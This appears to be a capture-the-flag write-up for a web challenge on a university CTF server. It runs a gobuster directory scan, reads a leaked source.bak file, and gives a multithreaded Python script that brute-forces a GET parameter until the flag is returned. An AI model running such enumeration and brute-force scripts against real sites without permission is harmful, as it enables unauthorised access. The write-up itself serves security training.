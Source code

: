 # Web Recon \& Enumeration Not So Random



First of all we have the site: http://ctf-06.security.cs.pub.ro:8000/ 

'Nothing to see here' which led me to a commonlist to see if there are hidden endpoints/files/directories with gobuster an instrument of type brute-force:
gobuster dir -u http://ctf-06.security.cs.pub.ro:8000/ -w ~/common.txt


/.hta.html            (Status: 403) [Size: 292]
/.hta                 (Status: 403) [Size: 292]
/.hta.php             (Status: 403) [Size: 292]
/.htaccess.txt        (Status: 403) [Size: 292]
/.htaccess            (Status: 403) [Size: 292]
/.htpasswd            (Status: 403) [Size: 292]
/.hta.bak             (Status: 403) [Size: 292]
/.htaccess.php        (Status: 403) [Size: 292]
/.hta.txt             (Status: 403) [Size: 292]
/.htpasswd.php        (Status: 403) [Size: 292]
/.htpasswd.html       (Status: 403) [Size: 292]
/.htaccess.bak        (Status: 403) [Size: 292]
/.htaccess.html       (Status: 403) [Size: 292]
/.htpasswd.txt        (Status: 403) [Size: 292]
/.htpasswd.bak        (Status: 403) [Size: 292]
/index.php            (Status: 200) [Size: 19]
/index.php            (Status: 200) [Size: 19]
/server-status        (Status: 403) [Size: 292]
/source.bak           (Status: 200) [Size: 110]

The interesting part is source.bak and index.php: 
We curl: 

vladpiriia@Vlads-MacBook-Air ~ % curl http://ctf-06.security.cs.pub.ro:8000/source.bak
if (isset($_GET['random_numberrr']) && intval($_GET['random_numberrr']) === $random_number) {
    echo $flag;
}%

This means that server verifies if we send a GET parameter named random_numberrr then compares that with a secret value $random_number and then if they are equal we are shown the flag.

But : GET http://ctf-06.security.cs.pub.ro:8000/source.bak?random_numberrr=12345 Source.bak este is a statice file, the server doesn't understand that PHP code, it shows as text, it doesn't run it so we need to modify it to have a script for : http://ctf-06.security.cs.pub.ro:8000/index.php?random_numberrr=12345.

```
import requests
from concurrent.futures import ThreadPoolExecutor, as_completed

url = "http://ctf-06.security.cs.pub.ro:8000/index.php"

def check_number(num):
    try:
        r = requests.get(url, params={'random_numberrr': num}, timeout=3)
        if "SSS{" in r.text:
            return f"\nFlag {num}: {r.text.strip()}"
        else:
            print(f"[-] Testat: {num}", flush=True)
    except requests.RequestException:
        print(f"[!] Eroare la: {num}", flush=True)
    return None

def brute_force_multi(start=20001, end=99999, threads=30):
    with ThreadPoolExecutor(max_workers=threads) as executor:
        futures = [executor.submit(check_number, i) for i in range(start, end + 1)]
        for future in as_completed(futures):
            result = future.result()
            if result:
                print(result)
                executor.shutdown(wait=False, cancel_futures=True)
                break

if __name__ == "__main__":
    brute_force_multi()
```


So then we find the flag at the number 49 999: Flag 49999: SSS{random_can_sometimes_be_predictable}.

